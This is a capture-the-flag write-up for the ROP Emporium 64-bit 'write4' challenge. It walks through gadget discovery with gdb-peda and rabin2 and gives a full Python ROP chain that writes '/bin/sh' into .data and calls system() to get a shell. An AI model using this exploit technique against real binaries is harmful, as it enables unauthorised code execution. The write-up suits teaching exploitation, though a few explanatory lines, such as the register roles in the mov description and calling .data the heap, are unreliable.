

#ROP Emporium - 64bit - write4
https://ropemporium.com/challenge/write4.html

Challenge Description
Description for write4 on ropemporium:
Our first foray into proper gadget use. A call to system() is still present but we'll need to write a string into memory somehow.
We need to read the flag, except that this time no “/bin/cat flag.txt� string has been provided for us.
For this challenge, we need to write a string to memory.
We could write either /bin/sh and read the flag ourselves or /bin/cat flag.txt.
/bin/sh is arguably easier to write to memory because it will fit into a 64-bit, 8 byte memory address.
How to write a string to memory
The most common to way to write a string to memory is to use a mov [?], ? instruction, for example mov [r14], r15.
mov [r14], r15 will copy the value in r15 into the memory address pointed to by r15.
To set up the registers for this mov instruction, we'd need to find a pop r14; pop r15; ret instruction.
In this theoretical example, there's a pop r14; pop r15; ret at 0x00400890.
• First, we pop the the writable section of memory into R14
• Next, we pop our /bin/sh string into R15 (with a NULL byte to signify the end of the string)
• Lastly, we write /bin/sh string to memory using mov
For example
# GADGETS
pop_r14_pop_r15_ret = struct.pack('<Q', 0x00400890)
data_addr = struct.pack('<Q', 0x00601050) # .data - writable section of memory - 16 bytes
mov_r15_r14_ret = struct.pack('<Q', 0x00400820) # mov QWORD PTR [r14],r15; ret
# move value in r15 to address pointed to by r14
# EXPLOIT
payload = "A"*40 # offset to RIP
# Stage 1 - Set up to write "/bin/sh" to memory
payload += pop_r14_pop_r15_ret # overwrite RIP
payload += data_addr # pop writable memory address into r14
payload += "/bin/sh\x00" # pop "/bin/sh\x00" into r15
# Stage 2 - Write "/bin/sh" to memory
payload += mov_r15_r14_ret # write "/bin/sh\x00" to memory
Later, when you want to use the /bin/sh string, you can reference it using its address in memory - data_addr
e.g. with system()
# Stage 3 - Run system("/bin/sh")
payload += pop_rdi_ret # set up system() parameters
payload += data_addr # pop "/bin/sh" @ dynamic_addr into RDI
payload += system_addr # run system()
write4 Solution
We need to find
• A mov gadget that writes to memory
• A pop gadget to set up our mov gadget's registers
• A writable section of memory
• A pop rdi; ret gadget to set up the parameters for system()
• The address of system()
1) Find a mov gadget
We need to find a a mov instruction/gadget that writes to memory and then returns
root@city64:~/ctf/ropemporium/write4# gdb -q write4
Reading symbols from write4...(no debugging symbols found)...done.
gdb-peda$ set follow-fork-mode parent
gdb-peda$ break main
Breakpoint 1 at 0x40074a
gdb-peda$ run
Starting program: /root/ctf/ropemporium/write4/write4
...
Breakpoint 1, 0x000000000040074a in main ()
gdb-peda$ ropsearch "mov ?, ?"
Searching for ROP gadget: 'mov ?, ?' in: binary ranges
0x00400821 : (b'893ec3') mov DWORD PTR [rsi],edi; ret
0x00400820 : (b'4d893ec3') mov QWORD PTR [r14],r15; ret
...
mov QWORD PTR [r14],r15; ret at 0x00400820 is perfect.
This instruction will move the value in r15 (our /bin/sh string) into the address pointed to by r14 (a memory address we can write to).
2) Find a ‘pop’ gadget to set up the 'mov' gadget's registers
Now we need to find a pop gadget that will pop values into the registers specified in our mov instruction - r14 and r15.
gdb-peda$ ropsearch "pop r14"
Searching for ROP gadget: 'pop r14' in: binary ranges
0x00400890 : (b'415e415fc3') pop r14; pop r15; ret
pop r14; pop r15; ret at 0x00400890 couldn't be more perfect.
3) Find a writable section of memory
You can find a writable section of memory by reading the binary's sections.
root@city64:~/ctf/ropemporium/write4# rabin2 -S write4
[Sections]
Nm Paddr Size Vaddr Memsz Perms Name
...
19 0x00000e10 8 0x00600e10 8 -rw- .init_array
20 0x00000e18 8 0x00600e18 8 -rw- .fini_array
21 0x00000e20 8 0x00600e20 8 -rw- .jcr
22 0x00000e28 464 0x00600e28 464 -rw- .dynamic
23 0x00000ff8 8 0x00600ff8 8 -rw- .got
24 0x00001000 80 0x00601000 80 -rw- .got.plt
25 0x00001050 16 0x00601050 16 -rw- .data
26 0x00001060 0 0x00601060 48 -rw- .bss
...
You should pick a section that has enough bytes to write your string.
The .data section is big enough to write /bin/sh\x00 - 8 bytes, but not big enough to write /bin/cat flag.txt\x00 - 18 bytes.
Your 2 options here are the GOT table - .got.plt, and the heap - .data.
I'm writing the string /bin/sh, so I chose .data at 0x00601050.
We have everything we need to write our string to memory at this point.
Now we just need to find a pop rdi; ret to set up the parameter(s) for system() and the address of system().
4) Find a pop rdi; ret gadget
gdb-peda$ ropsearch "pop rdi"
Searching for ROP gadget: 'pop rdi' in: binary ranges
0x00400893 : (b'5fc3') pop rdi; ret
There's a pop rdi; ret at 0x00400893.
5) Find address of system()
Find the address of system() by reading the binary's imports.
root@city64:~/ctf/ropemporium/write4# rabin2 -i write4
[Imports]
Num Vaddr Bind Type Name
1 0x004005d0 GLOBAL FUNC puts
2 0x004005e0 GLOBAL FUNC system
3 0x004005f0 GLOBAL FUNC printf
4 0x00400600 GLOBAL FUNC memset
5 0x00400610 GLOBAL FUNC __libc_start_main
6 0x00400620 GLOBAL FUNC fgets
7 0x00000000 WEAK NOTYPE __gmon_start__
8 0x00400630 GLOBAL FUNC setvbuf
7 0x00000000 WEAK NOTYPE __gmon_start__
system() is at 0x004005e0.
6) Write exploit script
We have everything we need to write to memory and run system()!
Write your exploit script.
Exploit Plan
1. Write 40 bytes of junk to reach the offset to RIP at 40 bytes
2. Write pop r14; pop r15; ret gadget to the stack
1) Write the .data address (our writable section of memory) to the stack so that it'll get popped into R14
2) Write our string to the stack so that it'll get popped into R15
3. Run the mov [r14],r15; ret instruction to move the value in R15 (our /bin/sh string) into to the address pointed to by R14 (our .data address)
4. Write our pop rdi; ret to the stack
1) Write the the address of our /bin/sh string to the stack (our .data address) so that it'll get popped into RDI
5. Run system()
Python Script
import struct
pop_r14_pop_r15_ret = struct.pack('<Q', 0x00400890)
data_addr = struct.pack('<Q', 0x00601050) # .data - writable section of memory - 16 bytes
mov_r15_r14_ret = struct.pack('<Q', 0x00400820) # mov QWORD PTR [r14],r15; ret
# move value in r15 to address pointed to by r14
pop_rdi_ret = struct.pack('<Q', 0x00400893)
system_addr = struct.pack('<Q', 0x004005e0)
payload = "A"*40 # offset to RIP @ 40 bytes
# Stage 1 - Set up to write "/bin/sh" to memory
payload += pop_r14_pop_r15_ret # overwrite RIP
payload += data_addr # pop writable section of memory into r14
payload += "/bin/sh\x00" # pop "/bin/sh\x00" into r15
# Stage 2 - Write "/bin/sh" to memory
payload += mov_r15_r14_ret # write "/bin/sh\x00" to memory
# Stage 3 - Run system("/bin/sh")
#payload += "B"*6
payload += pop_rdi_ret # set up system() parameters
payload += data_addr # pop "/bin/sh" string into RDI
payload += system_addr # run system()
print payload
7) Win!
root@city64:~/ctf/ropemporium/write4# (python write4pwn2.py; cat) | ./write4
write4 by ROP Emporium
64bits
Go ahead and give me the string already!
> id
uid=0(root) gid=0(root) groups=0(root)
cat flag.txt
ROPE{a_placeholder_32byte_flag!}
^C
Segmentation fault